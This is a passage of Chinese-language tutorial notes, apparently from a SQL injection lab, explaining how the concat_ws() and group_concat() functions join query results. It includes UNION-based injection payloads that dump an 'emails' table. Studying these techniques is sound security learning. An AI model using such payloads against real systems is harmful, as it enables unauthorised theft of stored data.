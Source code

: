    <img src="../../images/8-19-morning/concat.png" alt="concat" style="zoom:67%;" />

2. concat_ws()

   * 将多个字符串连接成为一个字符串，可以指定分隔符

   ```
   -1' union select 1,concat_ws('__',id,email_id),3 from emails --+
   ```

   <img src="../../images/8-19-morning/concat_ws.png" alt="concat_ws" style="zoom:67%;" />

3. group_concat()

   * 将多行结果连接成一组,可以指定分隔符

   ```
   -1' union select 1,group_concat(email_id),3 from emails --+
   -1' union select 1,group_concat(email_id separator '~'),3 from emails --+
   ```

   <img src="../../images/8-19-morning/group_concat.png" alt="group_concat" style="zoom:67%;" />